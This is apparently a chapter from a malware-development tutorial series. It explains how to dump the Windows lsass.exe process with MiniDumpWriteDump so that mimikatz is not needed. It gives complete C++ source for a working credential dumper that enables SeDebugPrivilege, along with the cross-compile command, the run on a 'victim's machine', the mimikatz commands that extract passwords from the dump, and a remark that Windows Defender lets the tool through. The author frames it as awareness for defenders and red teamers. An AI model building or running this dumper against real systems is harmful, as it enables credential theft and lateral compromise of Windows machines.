



\newpage
\subsection{41. malware development trick. Dump lsass.exe. Simple C++ example.}

﷽

{width="80%"}      

Today, I want to show how we can dumping Lsass without Mimikatz: via `MiniDumpWriteDump` API. Since [mimikatz](https://github.com/gentilkiwi/mimikatz) is a very famous tool and easy to detect, hackers find new tricks to reimplement some features from it's logic.     

### practical example

So, how we can write a simple `lsass.exe` process dumper? We use `MiniDumpWriteDump`:        

```cpp
BOOL MiniDumpWriteDump(
  [in] HANDLE                            hProcess,
  [in] DWORD                             ProcessId,
  [in] HANDLE                            hFile,
  [in] MINIDUMP_TYPE                     DumpType,
  [in] PMINIDUMP_EXCEPTION_INFORMATION   ExceptionParam,
  [in] PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,
  [in] PMINIDUMP_CALLBACK_INFORMATION    CallbackParam
);
```

The `MiniDumpWriteDump` function is a Windows API function that creates a minidump file, which is a small snapshot of the application state at the time the function is called. This file can be useful for debugging purposes, as it contains the exception information, a list of loaded DLLs, stack information, and other system state information.      

First of all, we find `lsass.exe` process, via function like this:     

```cpp
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}
```

It is necessary to have `SeDebugPrivilege` privilege to dump `LSASS` as an attacker:     

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, 
  &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES),
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}
```

Then, create dump:      

```cpp
// minidump lsass.exe
BOOL createMiniDump() {
  bool dumped = FALSE;
  int pid = findMyProc("lsass.exe");
  HANDLE ph = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, 0, pid);
  HANDLE out = CreateFile((LPCTSTR)"c:\\temp\\lsass.dmp", GENERIC_ALL, 0,
  NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (ph && out != INVALID_HANDLE_VALUE) {
    dumped = MiniDumpWriteDump(ph, pid, out, (MINIDUMP_TYPE)0x00000002, NULL, 
    NULL, NULL);
    printf(dumped ? "successfully dumped to lsaas.dmp :)\n" : 
    "failed to dump :(\n");
  } 
  return dumped; 
}
```

So, the full source code is looks like this `hack.cpp`:      

```cpp
/*
 * hack.cpp - Dump lsass without mimikatz. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/2023/05/11/malware-tricks-28.html
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <dbghelp.h>
#pragma comment (lib, "dbghelp.lib")

int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, 
  &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES),
   (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}

// minidump lsass.exe
BOOL createMiniDump() {
  bool dumped = FALSE;
  int pid = findMyProc("lsass.exe");
  HANDLE ph = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, 0, pid);
  HANDLE out = CreateFile((LPCTSTR)"c:\\temp\\lsass.dmp", GENERIC_ALL, 0, 
  NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (ph && out != INVALID_HANDLE_VALUE) {
    dumped = MiniDumpWriteDump(ph, pid, out, (MINIDUMP_TYPE)0x00000002, NULL, 
    NULL, NULL);
    printf(dumped ? "successfully dumped to lsaas.dmp :)\n" : "failed to dump :(\n");
  } 
  return dumped; 
}

int main(int argc, char* argv[]) {
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  if (!createMiniDump()) return -1;
  return 0;
}
```

As you can see, do not forget to add `dbghelp.lib` as a dependency:     

```cpp
#pragma comment (lib, "dbghelp.lib")
```

### demo

Let's go to see everything in action. Compile our dumper at the attacker's machine (`kali x64`):     

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -ldbghelp
```

{width="80%"}      

Then, execute it at the victim's machine (`windows 10 x64` in my case):     

```powershell
.\hack.exe
```

{width="80%"}      

As you can see, `lsass.dmp` gets dumped to the working directory: `C:\\temp\`.     

Then, open `mimikatz` load in the dump file and dump passwords:      

```powershell
.\mimikatz.exe
sekurlsa::minidump c:\temp\lsass.dmp
sekurlsa::logonpasswords
```

{width="80%"}      

{width="80%"}      

Interesting moment: not work in `mimikatz v2.2.0` on my Windows:      

{width="80%"}      

Note that Windows Defender on `Windows 10` is flagging up `mimikatz` immediately... but allows running `hack.exe`.      

So, what's the trick? We can create an attack in this following path:         

- execute `hack.exe` on victim's machine     
- so, `lsass.dmp` gets dumped to the working directory
- take the `lsass.dmp` offline to our attacking windows machine     
- open `mimikatz` and load in the dump file     
- dump passwords of victim's machine (on attacker's machine)!     

This is just one of the methods, I will try to tell about the another in the future.     

This trick is used many APTs and hacking tools in the wild. For example, [Cobalt Strike](https://attack.mitre.org/software/S0154) can spawn a job to inject into `LSASS` memory and dump password hashes. [Fox Kitten](https://attack.mitre.org/groups/G0117) and [HAFNIUM](https://attack.mitre.org/groups/G0125) used `procdump` to dump the `LSASS` process memory.       

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[MITRE ATT&CK - OS Credential Dumping: LSASS Memory](https://attack.mitre.org/techniques/T1003/001/)       
[APT3](https://attack.mitre.org/groups/G0022)       
[Cobalt Strike](https://attack.mitre.org/software/S0154)        
[Fox Kitten](https://attack.mitre.org/groups/G0117)      
[HAFNIUM](https://attack.mitre.org/groups/G0125)      
[mimikatz](https://github.com/gentilkiwi/mimikatz)         
[MiniDumpWriteDump](https://learn.microsoft.com/en-us/windows/win32/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump)      
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-05-11-malware-tricks-28)     
